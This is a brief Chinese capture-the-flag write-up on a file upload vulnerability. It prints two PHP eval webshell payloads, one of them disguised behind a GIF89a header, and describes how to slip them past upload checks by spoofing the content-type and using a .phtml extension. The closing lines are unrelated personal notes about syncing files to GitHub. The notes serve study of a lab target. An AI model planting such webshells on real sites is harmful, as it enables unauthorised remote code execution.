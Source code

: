 # 文件上传漏洞的攻击

1. 首先要一句话木马`<?php @eval($_POST['123'])；?>`
2. 通过回显页面，需要改变`content-type`
3. `content-type`修改为`image/jpeg`，使得检测为图片格式。第一层检测?
4. 通过回显页面，需要改变文件后缀名。`.php`会被检测出来。
5. 后缀名修改为`.phtml`或者其他依然能被作为`.php`解析但是不会报错的。第二层检测？
6. 通过回显页面，需要修改关键词`'<?'`会被检测。
7. 将一句话木马修改为`GIF89a? <script language="php">eval($_REQUEST[123])</script>`，就能正常通过。第三层检测？
8. 然后访问`http://84383578-8818-44aa-a77c-47810e3ecd7b.node5.buuoj.cn/upload/找到了shell.php`，然后用中国蚁剑打开 `http://84383578-8818-44aa-a77c-47810e3ecd7b.node5.buuoj.cn/upload/shell.phtml`，然后在目录下找到了`flag`
9.  学习一下，如果本地文件内容更改，然后通过vscode图形界面操作同步更改到github是怎么操作。
10. 学习一下，如果本地文件内容更改，然后通过命令行同步更改到github是怎么操作。
11. 学习使用命令行上传到github，以及解决各种问题，删除特定文件夹、忽略特定文件夹、覆盖原本的仓库等。